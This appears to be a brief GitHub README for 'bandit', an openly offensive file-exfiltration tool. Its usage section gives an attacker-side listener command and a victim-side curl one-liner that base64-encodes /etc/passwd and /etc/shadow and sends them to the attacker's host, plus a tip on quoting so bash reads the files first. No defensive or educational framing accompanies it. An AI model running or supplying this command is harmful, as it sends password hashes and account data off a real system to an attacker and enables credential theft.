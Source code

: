 # bandit
A quick and easy way to exfiltrate files

# usage
Attacker: ```python3 bandit.py [port]```
Victim: ```curl -d "passwd=$(base64 /etc/passwd)&shadow=$(base64 /etc/shadow)" http://yourip:port/```
It is important to use double quotes to allow bash to process reading the files and encoding them before upload


